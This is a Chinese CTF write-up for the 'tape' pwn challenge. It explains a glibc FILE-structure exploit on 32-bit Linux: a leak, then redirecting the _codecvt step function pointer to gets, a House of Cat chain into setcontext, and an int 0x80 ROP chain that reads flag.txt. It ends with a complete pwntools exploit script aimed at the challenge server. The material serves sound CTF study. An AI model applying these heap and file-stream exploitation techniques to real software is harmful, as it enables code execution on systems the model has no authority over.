

# 题目信息

```text
What can be done with the cassette tape?

Author: Rivit

nc tape.nc.jctf.pro 1337
```

# 题目分析

.ini_array里有一个初始化函数，关闭了stdout/stderr（但是用write写1还是可以输出到stdout的），创建了一个/tmp/tape空文件，并调用mmap申请了一块只读内存：

```C
int init_1961()
{
  struct _IO_FILE *v0; // eax
  int v1; // edx
  struct _IO_FILE *v2; // eax
  int v3; // edx
  time_t v4; // eax
  int fd; // [esp+Ch] [ebp-Ch]

  v0 = stdout;
  v1 = (stdout->_flags2 << 8 >> 8) | 0x20;
  LOWORD(stdout->_flags2) = (stdout->_flags2 << 8 >> 8) | 0x20;
  BYTE2(v0->_flags2) = BYTE2(v1);
  fclose(stdout);
  v2 = stderr;
  v3 = (stderr->_flags2 << 8 >> 8) | 0x20;
  LOWORD(stderr->_flags2) = (stderr->_flags2 << 8 >> 8) | 0x20;
  BYTE2(v2->_flags2) = BYTE2(v3);
  fclose(stderr);
  fd = creat("/tmp/tape", 0x1FFu);
  if ( fd < 0 )
    exit(1);
  close(fd);
  v4 = time(0);
  srand(v4);
  mmap_buf_406C = mmap_ro_page_136F();
  return set_seccomp_18D6();
}
```

沙箱：

```Bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x06 0x00 0x0000000b  if (A == execve) goto 0008
 0002: 0x15 0x05 0x00 0x00000166  if (A == execveat) goto 0008
 0003: 0x15 0x04 0x00 0x00000078  if (A == clone) goto 0008
 0004: 0x15 0x03 0x00 0x00000002  if (A == fork) goto 0008
 0005: 0x15 0x02 0x00 0x000000be  if (A == vfork) goto 0008
 0006: 0x15 0x01 0x00 0x0000001a  if (A == ptrace) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

只读内存主要用于检查和计数，恢复了一下结构：

```c
00000000 struct __fixed tape_t // sizeof=0x20
00000000 {
00000000     int vtable;
00000004     int wide_vtable;
00000008     int wide_data;
0000000C     char flags[5] __strlit(C,"UTF-8"); // 记录edit和rewind次数
00000011     int rand[2];
00000019     // padding byte
0000001A     // padding byte
0000001B     // padding byte
0000001C     int rand_buf;
00000020 };
```

每次循环有两个检查：

1. check1：在只读内存中拷贝了stream的`_vtable`、`_wide_data->_wide_vtable`、`_wide_data`，每次循环比对stream的这三个指针是否被篡改

   ```c
   int __cdecl check1_163A(struct _IO_FILE_plus *stream)
   {
     int v2; // [esp+0h] [ebp-18h]
   
     v2 = 0;
     mprotect_wo_132E(mmap_buf_406C);
     if ( stream->vtable != (const struct _IO_jump_t *)mmap_buf_406C->vtable// _vtable
       || stream[1].vtable != (const struct _IO_jump_t *)mmap_buf_406C->wide_vtable// _wide_data->_wide_vtable
       || stream->file._wide_data != (void *)mmap_buf_406C->wide_data )// _wide_data
     {
       v2 = 1;
     }
     mprotect_ro_12ED(mmap_buf_406C);
     return v2;
   }
   ```

2. check2：检查只读内存中保存的随机数是否被篡改（感觉这个检查好像没什么卵用）

程序只有3个功能：

1. Write：分别可以修改1/2/3/4个字节，对应地分别有4/3/2/1次机会
2. Rewind：有5次机会，调用rewind函数
3. Exit：`_exit`系统调用退出

这道题的难点在于毙掉了传统的直接改`_vtable`、`_wide_data->_wide_vtable`、`_wide_data`的方式进行函数调用，只能回过头去看rewind源码里面有什么能利用的地方。

/tmp/tape的FILE结构如下（先rewind一次可以把几个堆指针初始化）：

```gdb
pwndbg> p *(struct _IO_FILE_plus *)0x64fe51a0
$1 = {
  file = {
    _flags = -72539000,
    _IO_read_ptr = 0x64fe53f0 "",
    _IO_read_end = 0x64fe53f0 "",
    _IO_read_base = 0x64fe53f0 "",
    _IO_write_base = 0x64fe53f0 "",
    _IO_write_ptr = 0x64fe53f0 "",
    _IO_write_end = 0x64fe53f0 "",
    _IO_buf_base = 0x64fe53f0 "",
    _IO_buf_end = 0x64fe63f0 "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0xf31b35c0 <_IO_2_1_stdin_>,
    _fileno = 3,
    _flags2 = 1,
    _short_backupbuf = "",
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x64fe5238,
    _offset = 0,
    _codecvt = 0x64fe5280,
    _wide_data = 0x64fe5244,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    _prevchain = 0xf31b3c80 <_IO_list_all>,
    _mode = 1,
    _unused2 = '\000' <repeats 39 times>
  },
  vtable = 0xf31b290c
}
pwndbg> tele 0xf31b290c
00:0000│  0xf31b290c ◂— 0
01:0004│  0xf31b2910 ◂— 0
02:0008│  0xf31b2914 —▸ 0xf2fff0e0 (_IO_file_finish) ◂— endbr32 
03:000c│  0xf31b2918 —▸ 0xf2ff96a0 (_IO_wfile_overflow) ◂— endbr32 
04:0010│  0xf31b291c —▸ 0xf2ff9650 (_IO_wfile_underflow_maybe_mmap) ◂— endbr32 
05:0014│  0xf31b2920 —▸ 0xf2ff7850 (_IO_wdefault_uflow) ◂— endbr32 
06:0018│  0xf31b2924 —▸ 0xf2ff7630 (_IO_wdefault_pbackfail) ◂— endbr32 
07:001c│  0xf31b2928 —▸ 0xf2ffa430 (_IO_wfile_xsputn) ◂— endbr32 
pwndbg> 
08:0020│  0xf31b292c —▸ 0xf3000db0 (__GI__IO_file_xsgetn) ◂— endbr32 
09:0024│  0xf31b2930 —▸ 0xf2ff9aa0 (_IO_wfile_seekoff) ◂— endbr32 
0a:0028│  0xf31b2934 —▸ 0xf3002610 (_IO_default_seekpos) ◂— endbr32 
0b:002c│  0xf31b2938 —▸ 0xf2fff950 (_IO_file_setbuf_mmap) ◂— endbr32 
0c:0030│  0xf31b293c —▸ 0xf2ff9910 (_IO_wfile_sync) ◂— endbr32 
0d:0034│  0xf31b2940 —▸ 0xf2ff33d0 (_IO_wfile_doallocate) ◂— endbr32 
0e:0038│  0xf31b2944 —▸ 0xf3000a40 (_IO_file_read) ◂— endbr32 
0f:003c│  0xf31b2948 —▸ 0xf3000b30 (_IO_file_write) ◂— endbr32 
pwndbg> 
10:0040│  0xf31b294c —▸ 0xf3000a80 (_IO_file_seek) ◂— endbr32 
11:0044│  0xf31b2950 —▸ 0xf3000b10 (_IO_file_close) ◂— endbr32 
12:0048│  0xf31b2954 —▸ 0xf3000ab0 (_IO_file_stat) ◂— endbr32 
13:004c│  0xf31b2958 —▸ 0xf3003a30 (_IO_default_showmanyc) ◂— endbr32 
14:0050│  0xf31b295c —▸ 0xf3003a40 (_IO_default_imbue) ◂— endbr32
```

# 解题思路

## leak

观察rewind的调用流程，参考House of Cat的利用方法，重点看了一下_IO_switch_to_wget_mode，发现有一条路径可以实现泄露：

[`_IO_wfile_seekoff`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L743)
  -> [`_IO_switch_to_wget_mode`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L773)
    -> [`_IO_WOVERFLOW(_IO_wfile_overflow)`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wgenops.c#L394)
      -> [`_IO_do_flush`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L466)
        -> [`_IO_do_write`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/libioP.h#L564)
          ->[`_IO_new_do_write`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L47)
            -> [`new_do_write`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/fileops.c#L427)
              -> [`_IO_SYSWRITE`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/fileops.c#L450)

需要构造几个条件：

* `fp->_flags &= _IO_CURRENTLY_PUTTING(0x0800)`，即`_IO_in_put_mode (fp) == 1`
* `fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base`
* `fp->_flags &= ~_IO_NO_WRITES(0x0008)`
* `fp->_IO_read_end == fp->_IO_write_base`
* `fp->_fileno = 1`

```c {hide=true}
off64_t
_IO_wfile_seekoff (FILE *fp, off64_t offset, int dir, int mode)
{
  ...
  bool was_writing = ((fp->_wide_data->_IO_write_ptr
		       > fp->_wide_data->_IO_write_base)
		      || _IO_in_put_mode (fp)); // ---> fake: fp->_flags &= _IO_CURRENTLY_PUTTING(0x0800)
  /* Flush unwritten characters.
     (This may do an unneeded write if we seek within the buffer.
     But to be able to switch to reading, we would need to set
     egptr to pptr.  That can't be done in the current design,
     which assumes file_ptr() is eGptr.  Anyway, since we probably
     end up flushing when we close(), it doesn't make much difference.)
     FIXME: simulate mem-mapped files. */
  if (was_writing && _IO_switch_to_wget_mode (fp)) // --->
    return WEOF;
  ...
}

int
_IO_switch_to_wget_mode (FILE *fp)
{
  if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base) // ---> fake
    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF) // --->
      return EOF;
    ...
}

wint_t
_IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */ // ---> fake: f->_flags &= ~_IO_NO_WRITES
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  ...
  if (wch == WEOF)
    return _IO_do_flush (f); // --->
  ...
}

#define _IO_do_flush(_f) \
  ((_f)->_mode <= 0							      \
   ? _IO_do_write(_f, (_f)->_IO_write_base,				      \
		  (_f)->_IO_write_ptr-(_f)->_IO_write_base)		      \
   : _IO_wdo_write(_f, (_f)->_wide_data->_IO_write_base,		      \
		   ((_f)->_wide_data->_IO_write_ptr			      \
		    - (_f)->_wide_data->_IO_write_base)))

int
_IO_wdo_write (FILE *fp, const wchar_t *data, size_t to_do)
{
  struct _IO_codecvt *cc = fp->_codecvt;

  if (to_do > 0)
    {
      if (fp->_IO_write_end == fp->_IO_write_ptr
	  && fp->_IO_write_end != fp->_IO_write_base)
	{
	  if (_IO_new_do_write (fp, fp->_IO_write_base,
				fp->_IO_write_ptr - fp->_IO_write_base) == EOF) // --->
	    return WEOF;
	}
  ...
}

int
_IO_new_do_write (FILE *fp, const char *data, size_t to_do)
{
  return (to_do == 0
	  || (size_t) new_do_write (fp, data, to_do) == to_do) ? 0 : EOF; // --->
}
  
static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    /* On a system without a proper O_APPEND implementation,
       you would need to sys_seek(0, SEEK_END) here, but is
       not needed nor desirable for Unix- or Posix-like systems.
       Instead, just indicate that offset (before and after) is
       unpredictable. */
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base) // ---> fake: fp->_IO_read_end == fp->_IO_write_base
    {
      off64_t new_pos
	= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
	return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do); // --->
```

先调一次rewind初始化FILE结构体中的各个指针，而后修改对应字段，爆破4位（1/16的概率）实现泄露。

综上，构造如下：

```python
rewind()
edit(2, 0, p16(0x2c80)) # _flags
edit(1, 0x38, p8(1)) # _fileno
edit(1, 0xb0+1, p8(0x40)) # _wide_data->_IO_write_base+1
edit(1, 0x10+1, p8(0x40)) # _IO_write_base
edit(1, 0x8+1, p8(0x40)) # _IO_read_end
rewind()
```

泄露地址之后，write函数可以在已知偏移任意地址写了，还剩1次4bytes，2次3bytes，2次2bytes的write，3次rewind的机会。


## exploit

再回到rewind的调用流程，可以发现一条调用到结构体内函数指针的路径：

[`_IO_wfile_seekoff`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L743)
  -> [`adjust_wide_data`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L876)
    -> [`__libio_codecvt_in`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L568)
      -> [`DL_CALL_FCT`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/iofwide.c#L180)
  -> [`_IO_SYSSEEK`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L929)

需要构造的条件：

* `fp->_IO_read_end = fp->_IO_buf_base + 0x980`

  > 此时`offset == 0`，`fp->_offset == 0x980`，需达成`start_offset = (fp->_offset - (fp->_IO_read_end - fp->_IO_buf_base)) <= offset`的条件

* `fp->_codecvt->__cd_in.step->__shlib_handle == NULL`

* `fp->_codecvt->__cd_in.step->__fct = gets`

* `fp->_codecvt->__cd_in.step = &fake_step`

```c {hide=true}
off64_t
_IO_wfile_seekoff (FILE *fp, off64_t offset, int dir, int mode)
{
  ...
  /* If destination is within current buffer, optimize: */
  if (fp->_offset != _IO_pos_BAD && fp->_IO_read_base != NULL
      && !_IO_in_backup (fp))
    {
      off64_t start_offset = (fp->_offset
                              - (fp->_IO_read_end - fp->_IO_buf_base));
      if (offset >= start_offset && offset < fp->_offset) // ---> fake: offset >= start_offset
	{
	  _IO_setg (fp, fp->_IO_buf_base,
		    fp->_IO_buf_base + (offset - start_offset),
		    fp->_IO_read_end);
	  _IO_setp (fp, fp->_IO_buf_base, fp->_IO_buf_base);
	  _IO_wsetg (fp, fp->_wide_data->_IO_buf_base,
		     fp->_wide_data->_IO_buf_base,
		     fp->_wide_data->_IO_buf_base);
	  _IO_wsetp (fp, fp->_wide_data->_IO_buf_base,
		     fp->_wide_data->_IO_buf_base);

	  if (adjust_wide_data (fp, false)) // ---> [1]
	    goto dumb;

	  _IO_mask_flags (fp, 0, _IO_EOF_SEEN);
	  goto resync; // --->
	}
    }
  
  ...
resync:
  /* We need to do it since it is possible that the file offset in
     the kernel may be changed behind our back. It may happen when
     we fopen a file and then do a fork. One process may access the
     file and the kernel file offset will be changed. */
  if (fp->_offset >= 0)
    _IO_SYSSEEK (fp, fp->_offset, 0); // ---> [2]

  return offset;
}
    
static int
adjust_wide_data (FILE *fp, bool do_convert)
{
  ...
  do
    {

      fp->_wide_data->_IO_last_state = fp->_wide_data->_IO_state;
      status = __libio_codecvt_in (cv, &fp->_wide_data->_IO_state,
				   fp->_IO_read_base, fp->_IO_read_ptr,
				   &read_stop,
				   fp->_wide_data->_IO_read_base,
				   fp->_wide_data->_IO_buf_end,
				   &fp->_wide_data->_IO_read_end); // ---> 

      /* Should we return EILSEQ?  */
      if (__glibc_unlikely (status == __codecvt_error))
	{
	  fp->_flags |= _IO_ERR_SEEN;
	  return -1;
	}
    }
  while (__builtin_expect (status == __codecvt_partial, 0));

done:
  /* Now seek to _IO_read_end to behave as if we have read it all in.  */
  fp->_wide_data->_IO_read_ptr = fp->_wide_data->_IO_read_end;

  return 0;
}

enum __codecvt_result
__libio_codecvt_in (struct _IO_codecvt *codecvt, __mbstate_t *statep,
		    const char *from_start, const char *from_end,
		    const char **from_stop,
		    wchar_t *to_start, wchar_t *to_end, wchar_t **to_stop)
{
  enum __codecvt_result result;

  struct __gconv_step *gs = codecvt->__cd_in.step; // fake: fp->_codecvt->__cd_in.step = fake_step_addr
  int status;
  size_t dummy;
  const unsigned char *from_start_copy = (unsigned char *) from_start;

  codecvt->__cd_in.step_data.__outbuf = (unsigned char *) to_start;
  codecvt->__cd_in.step_data.__outbufend = (unsigned char *) to_end;
  codecvt->__cd_in.step_data.__statep = statep;

  __gconv_fct fct = gs->__fct;
  if (gs->__shlib_handle != NULL) // fake: fp->_codecvt->__cd_in.step->__shlib_handle == NULL
    PTR_DEMANGLE (fct);

  status = DL_CALL_FCT (fct,
			(gs, &codecvt->__cd_in.step_data, &from_start_copy,
			 (const unsigned char *) from_end, NULL,
			 &dummy, 0, 0)); // ---> fp->_codecvt->__cd_in.step->__fct = gets
  ...
}
```



`__libio_codecvt_in`中调用`_codecvt->__cd_in.step->__fct`指针，而且第一个参数是`_codecvt->__cd_in.step`的地址：

```gdb
pwndbg> p *((FILE *)(0x5655a000+0x1a0))->_codecvt->__cd_in.step
$4 = {
  __shlib_handle = 0x0,
  __modname = 0x0,
  __counter = 1,
  __from_name = 0xf7fb8dbd "ISO-10646/UTF8/",
  __to_name = 0xf7f3c837 "INTERNAL",
  __fct = 0xf7d98c30 <__gconv_transform_utf8_internal>,
  __btowc_fct = 0xf7d954c0 <__gconv_btwoc_ascii>,
  __init_fct = 0x0,
  __end_fct = 0x0,
  __min_needed_from = 1,
  __max_needed_from = 6,
  __min_needed_to = 4,
  __max_needed_to = 4,
  __stateful = 0,
  __data = 0x0
}
pwndbg> p *((FILE *)(0x5655a000+0x1a0))->_codecvt->__cd_in.step.__fct
$5 = {int (struct __gconv_step *, struct __gconv_step_data *, const unsigned char **, const unsigned char *, 
    unsigned char **, size_t *, int, int)} 0xf7d98c30 <__gconv_transform_utf8_internal>
```

所以只需要走进这个分支，先确定把函数指针写哪个位置，同时注意满足`fp->_codecvt->__cd_in.step->__shlib_handle == NULL`的条件。

由于我们想绕过检查改vtable，故我们函数指针写gets，并将其写到vtable前面的某个空闲位置，**这里我写的是`__unused2 + 4`的位置**，而后根据`_codecvt->__cd_in.step->__fct`的偏移为0x14，逆推出`fp->_codecvt->__cd_in.step`的地址应该写多少。

这么一来用gets输入就可以覆盖vtable以及后面的`_wide_data`结构体，且突破了修改的长度和检查的限制。

```python
stream_addr = heap_base + 0x1a0
gets_addr = libc_base + 0x7d760
fake_fct_addr = stream_addr + 0x6c + 4 # _unused2+4
fake_step_addr = fake_fct_addr - 0x14

edit(2, 8, p16(0x4d70)) # _IO_read_end
edit(4, 0x6c + 4, p32(gets_addr)) # _unused2+4
edit(2, 0xe0, p16(fake_step_addr&0xffff)) # _codecvt->__cd_in.step
```

[`adjust_wide_data`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L876)返回后，`_IO_wfile_seekoff`后续还会调用[`_IO_SYSSEEK`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L929)，gets时修改vtable再调一次`_IO_wfile_seekoff`，后面接着House of Cat即可完成利用，利用链：

[`_IO_wfile_seekoff`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L743)
  -> [`_IO_switch_to_wget_mode`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L773)
    -> [`_IO_WOVERFLOW`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wgenops.c#L394)（`_wide_data->_wide_vtable.__overflow`）

伪造`_wide_data->_wide_vtable`指针指向堆地址，伪造`_wide_data->_wide_vtable.__overflow`调用`setcontext+53`：

```python
 ► 0xeb59c825 <setcontext+53>    mov    ecx, dword ptr [eax + 0x4c]     ECX, [0x62d14310] => 0
   0xeb59c828 <setcontext+56>    mov    esp, dword ptr [eax + 0x30]     ESP, [0x62d142f4] => 0
   0xeb59c82b <setcontext+59>    push   ecx
   0xeb59c82c <setcontext+60>    mov    edi, dword ptr [eax + 0x24]
   0xeb59c82f <setcontext+63>    mov    esi, dword ptr [eax + 0x28]
   0xeb59c832 <setcontext+66>    mov    ebp, dword ptr [eax + 0x2c]
   0xeb59c835 <setcontext+69>    mov    ebx, dword ptr [eax + 0x34]
   0xeb59c838 <setcontext+72>    mov    edx, dword ptr [eax + 0x38]
   0xeb59c83b <setcontext+75>    mov    ecx, dword ptr [eax + 0x3c]
   0xeb59c83e <setcontext+78>    mov    eax, dword ptr [eax + 0x40]
   0xeb59c841 <setcontext+81>    ret
```

可以看到32位的setcontext是由eax指针指向frame结构体，此时eax正好指向我们伪造的`_wide_vtable`的位置，接着`_wide_vtable`构造frame即可：

```bash
0xeb5dbbc4	394	    if ((wint_t)_IO_WOVERFLOW (fp, WEOF) == WEOF)
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────
 EAX  0x62d142c4 ◂— 0
 EBX  0x62d141a0 ◂— 0xfbad24a0
 ECX  0
 EDX  0x62d14090 ◂— 0
 EDI  0
 ESI  0x62d141a0 ◂— 0xfbad24a0
 EBP  0
*ESP  0xffe6fde0 —▸ 0x62d141a0 ◂— 0xfbad24a0
*EIP  0xeb5dbbc4 (_IO_switch_to_wget_mode+36) ◂— call dword ptr [eax + 0xc]
───────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────
   0xeb5dbbb6 <_IO_switch_to_wget_mode+22>    jae    _IO_switch_to_wget_mode+53  <_IO_switch_to_wget_mode+53>
 
   0xeb5dbbb8 <_IO_switch_to_wget_mode+24>    sub    esp, 8                          ESP => 0xffe6fde8 (0xffe6fdf0 - 0x8)
   0xeb5dbbbb <_IO_switch_to_wget_mode+27>    mov    eax, dword ptr [eax + 0x88]     EAX, [0x62d142cc] => 0x62d142c4 ◂— 0
   0xeb5dbbc1 <_IO_switch_to_wget_mode+33>    push   -1
   0xeb5dbbc3 <_IO_switch_to_wget_mode+35>    push   ebx
 ► 0xeb5dbbc4 <_IO_switch_to_wget_mode+36>    call   dword ptr [eax + 0xc]       <setcontext+53>
        arg[0]: 0x62d141a0 ◂— 0xfbad24a0
        arg[1]: 0xffffffff
        arg[2]: 0x62d141a0 ◂— 0xfbad24a0
        arg[3]: 0xeb5d7c4e (gets+126) ◂— mov ecx, dword ptr [ebx]
 
   0xeb5dbbc7 <_IO_switch_to_wget_mode+39>    add    esp, 0x10
   0xeb5dbbca <_IO_switch_to_wget_mode+42>    cmp    eax, -1
   0xeb5dbbcd <_IO_switch_to_wget_mode+45>    je     _IO_switch_to_wget_mode+89  <_IO_switch_to_wget_mode+89>
 
   0xeb5dbbcf <_IO_switch_to_wget_mode+47>    mov    eax, dword ptr [ebx + 0x58]
   0xeb5dbbd2 <_IO_switch_to_wget_mode+50>    mov    edx, dword ptr [eax + 0x10]
```

最终我们将esp指向伪造的frame结构体后的位置，并在此构造ROP链，eip指向`ret`的gadget即可跳转ROP执行。

> [!error]
>
> 这里不知道为什么直接调用open函数会失败，所以最后找到一个int 0x80的系统调用进行ROP。

# Exp

```python
from pwn import *

aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "i386"
context.os = "linux"

libc = None
elf = None
p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

def conn(local=1):
    global p, libc, elf
    pc = './tape'
    libc = ELF('./libc.so.6')
    elf = ELF(pc)

    if local == 1:
        p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        #p = process(pc,aslr=aslr)
    else:
        remote_addr = ['tape.nc.jctf.pro', 1337]
        p = remote(remote_addr[0], remote_addr[1])

def rewind():
    ru("> \n")
    sn("2")

def edit(idx, off, data):
    ru("> \n")
    sn("1")

    ru("Index: \n")
    sl(str(idx))
    ru("Offset: \n")
    sl(str(off))
    ru("Data: \n")
    sn(data)

def bye():
    ru("> \n")
    sn("0")

if __name__ == "__main__":
    while True:
        try:
            conn()

            rewind()
            edit(2, 0, p16(0x3c80)) # _flags
            edit(1, 0x38, p8(1)) # _fileno
            edit(1, 0xb0+1, p8(0x40)) # _wide_data->_IO_write_base+1
            edit(1, 0x10+1, p8(0x40)) # _IO_write_base
            rewind()
            leak = ru(b"1. Write")[:-8]
            if len(leak) > 0:
                break
            else:
                raise EOFError
        except EOFError:
            p.close()

    heap_base = u32(leak[0xb4:0xb4+4]) - 0x3f0
    libc_base = u32(leak[0xe4:0xe4+4]) - 0x23d5c0 # _IO_2_1_stdin_
    lg("heap_base", heap_base)
    lg("libc_base", libc_base)

    stream_addr = heap_base + 0x1a0
    gets_addr = libc_base + 0x7d760
    fake_fct_addr = stream_addr + 0x6c + 4 # _unused2+4
    fake_step_addr = fake_fct_addr - 0x14

    # exploit
    edit(2, 8, p16(0x4d70)) # _IO_read_end
    edit(4, 0x6c + 4, p32(gets_addr)) # _unused2 = fake _codecvt->__cd_in.step.__fct
    edit(2, 0xe0, p16(fake_step_addr&0xffff)) # _codecvt->__cd_in.step = fake step
    rewind()

    vtable = libc_base + 0x23c90c
    IO_list_all = libc_base + 0x23dc80
    setcontext = libc_base + 0x00042570 + 53

    payload = b''
    payload += p32(0)*2
    payload += p32(IO_list_all)
    payload += p32(1) # mode
    payload = payload.ljust(0x38, b'\x00')
    payload += p32(vtable-0x1c) # vtable.__seek => vtable->__seekoff
    payload = payload.ljust(0x48, b'\x00')
    # _wide_data
    payload += p32(0)*3 # _IO_read_base/ptr/end
    payload += p32(0) + p32(1) # _IO_write_base/ptr
    payload = payload.ljust(0xd0, b'\x00')
    payload += p32(fake_step_addr + 0xd4 - 0xc) # _wide_data->_wide_vtable
    payload += p32(setcontext) # _wide_data->_wide_vtable->__overflow

    ret = libc_base + 0x425c1
    flag_addr = heap_base + +0x2d4
    int80_gadget = libc_base + 0x0009BDDD
    add_esp_1c = libc_base + 0x000244c0
    '''
   0xe7e0c1ed <__syscall_cancel_arch+13>:	mov    eax,DWORD PTR [esp+0x18]
   0xe7e0c1f1 <__syscall_cancel_arch+17>:	mov    ebx,DWORD PTR [esp+0x1c]
   0xe7e0c1f5 <__syscall_cancel_arch+21>:	mov    ecx,DWORD PTR [esp+0x20]
   0xe7e0c1f9 <__syscall_cancel_arch+25>:	mov    edx,DWORD PTR [esp+0x24]
   0xe7e0c1fd <__syscall_cancel_arch+29>:	mov    esi,DWORD PTR [esp+0x28]
   0xe7e0c201 <__syscall_cancel_arch+33>:	mov    edi,DWORD PTR [esp+0x2c]
   0xe7e0c205 <__syscall_cancel_arch+37>:	mov    ebp,DWORD PTR [esp+0x30]
   0xe7e0c209 <__syscall_cancel_arch+41>:	int    0x80
   0xe7e0c20b <__syscall_cancel_arch+43>:	pop    ebx
   0xe7e0c20c <__syscall_cancel_arch+44>:	pop    esi
   0xe7e0c20d <__syscall_cancel_arch+45>:	pop    edi
   0xe7e0c20e <__syscall_cancel_arch+46>:	pop    ebp
   0xe7e0c20f <__syscall_cancel_arch+47>:	ret
    '''

    def int80(eax, ebx=0, ecx=0, edx=0, edi=0, ebp=0):
        rop = p32(int80_gadget)
        rop += p32(0)*3
        rop += p32(ebp)
        rop += p32(add_esp_1c)
        rop += p32(0)
        rop += p32(eax) + p32(ebx) + p32(ecx) + p32(edx) + p32(ebp)
        rop += p32(0xdeadbeef)
        return rop

    frame = b"flag.txt".ljust(0x20, b'\x00')
    frame += p32(fake_step_addr + 0x120) # esp
    frame = frame.ljust(0x3c, b'\x00')
    frame += p32(ret) # eip
    payload += frame
    payload = payload.ljust(0x120, b'\x00')

    rop = int80(5, flag_addr, 0) # open
    rop += int80(3, 4, heap_base+0x3000, 0x80) # read
    rop += int80(4, 1, heap_base+0x3000, 0x80) # write
    rop += int80(1, 0) # exit(0)
    payload += rop
    sl(payload)

    p.interactive()
```

